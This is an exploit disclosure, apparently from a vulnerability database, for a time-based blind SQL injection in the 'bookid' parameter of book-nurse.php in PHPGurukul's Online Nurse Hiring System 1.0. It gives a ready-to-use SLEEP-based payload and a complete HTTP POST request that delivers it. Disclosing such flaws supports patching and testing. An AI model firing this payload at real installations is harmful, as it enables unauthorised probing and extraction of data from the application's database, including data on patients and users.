# Online Nurse Hiring System 1.0 - 'bookid' Time-Based SQL Injection
- Vendor Homepage: https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
- Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=17826
- Version: 1.0
- Tested On: Kali Linux 6.1.27-1kali1 (2023-05-12) x86_64 + XAMPP 7.4.30

## Description
On the book-nurse.php page, the bookid parameter is vulnerable to SQL Injection vulnerability.

## Proof of Concept
After sending the payload, the response time will increase to at least 5 seconds.
Payload: 1'+AND+(SELECT+2667+FROM+(SELECT(SLEEP(5)))RHGJ)+AND+'vljY'%3d'vljY

## HTTP Request
```
POST /onhs/book-nurse.php?bookid=1'+AND+(SELECT+2667+FROM+(SELECT(SLEEP(5)))RHGJ)+AND+'vljY'%3d'vljY HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Cookie: PHPSESSID=0ab508c4aa5fdb6c55abb909e5cbce09

contactname=test&contphonenum=1111111&contemail=test%40test.com&fromdate=2023-10-11&todate=2023-10-18&timeduration=1&patientdesc=3&submit=
```
